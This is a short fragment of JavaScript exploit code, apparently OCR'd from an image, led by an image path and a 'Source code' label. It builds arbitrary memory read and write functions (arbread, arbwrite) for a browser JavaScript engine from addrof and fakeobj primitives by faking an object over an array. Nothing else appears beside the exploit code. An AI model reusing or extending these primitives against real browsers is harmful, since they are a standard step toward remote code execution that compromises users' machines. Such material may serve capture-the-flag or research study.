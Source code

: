 var float_hc = cor[3];
var arr2 = [float_hc, 1.2, 2.3, 3.4];
var fake = fakeobj(addrof(arr2)+0x20n);
function arbread(addr) {
    arr2[1] = itof((2n<<32n)+addr-8n);
    return (fake[0]);
}
function arbwrite(addr, val) {
    arr2[1] = itof((2n<<32n)+addr-8n);
    fake[0] = itof(BigInt(val));
}